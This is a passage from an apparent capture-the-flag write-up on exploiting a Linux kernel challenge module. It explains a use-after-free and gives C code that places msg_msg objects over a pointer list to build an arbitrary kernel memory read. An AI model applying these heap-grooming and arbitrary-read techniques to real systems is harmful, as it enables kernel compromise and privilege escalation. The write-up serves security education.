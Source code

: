 As you can see the `num_of_recipes` is 0xff even tho we achieved UAF. This is because krealloc doesn't return a valid ptr and `num_of_recipes` is the decremented as part of the error handling.
```c
// tmp is the ptr returned by krealloc
if (ZERO_OR_NULL_PTR(tmp)) {
	printk(KERN_INFO "[CHALL] [ERR] (Re)allocation failed\n");
	manager.num_of_recipes--;
	goto error;
}
```

## Exploitation

First of all, we need to leak some cache addresses.
The plan is to allocate an `msg_msg` struct of 2048 bytes over the `recipes_list`, with the contents of `msg_msg` we can tamper with the list of pointers. If you want to know more about `msg_msg` read my previous article: https://leo1.cc/posts/docs/msg_msg.

### Arbitrary read
Tampering with the `recipes_list` means writing arbitrary pointer into it, enabling us to arbitrary read memory.
The `read_recipe` functionality of the module is not the best way to achieve the primitive we are looking for, since the check of the `owner_id` is quite limiting.

However, the `get_info` comes to our rescue: this functionality is not restricted by the `owner_uid` check, thus we can read arbitrary locations through `recipe.bufsize`, `recipe.public` and `recipe.owner_id`. For the sake of simplicity I'll stick to the first one, as it enables us read a full qword.

I wrote this function to simplify the process:
```c
ulong read_qword(ulong addr){
	// alloc msg_msg over recipes_list
	struct msgbuf
    {
        long mtype;
        char mtext[2000];
    } msg;
    msg.mtype = 1;
	
	// place a pointer just after msg_msg metadata (index 6 of recipes_list)
	ulong *ptr = (ulong *)&msg.mtext;
    ptr[0] = addr - 8; // recipe.bufsize overlaps the qword to read

	int qid = alloc_msg(&msg, sizeof(msg.mtext));
	free_msg(qid, &msg, sizeof(msg.mtext));

	// get the bufsize
	struct info leak;
	info_recipe(6, &leak);
	return leak.bufsize;
}
```
